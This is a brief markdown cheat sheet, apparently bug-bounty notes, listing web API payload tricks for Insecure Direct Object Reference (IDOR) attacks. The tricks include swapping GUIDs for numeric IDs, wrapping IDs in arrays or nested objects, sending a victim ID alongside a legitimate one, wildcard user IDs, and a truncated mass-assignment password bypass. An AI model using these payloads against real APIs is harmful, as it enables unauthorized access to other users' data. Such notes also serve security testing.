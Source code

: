


## IDOR
```
Even if ID is a GUID or random, send numeric: /?user_id=111



```


## IDOR in API with 401/403 errors
```
Wrap ID with an array {“id”:111} --> {“id”:[111]}
JSON wrap {“id”:111} --> {“id”:{“id”:111}}
Send ID twice URL?id=<LEGIT>&id=<VICTIM>
Send wildcard {"user_id":"*"}
```

Use Mass Assignment to bypass security mechanisms.
For Example:"POST /api/rest_pass" requires old password."PUT /api/update_user" 


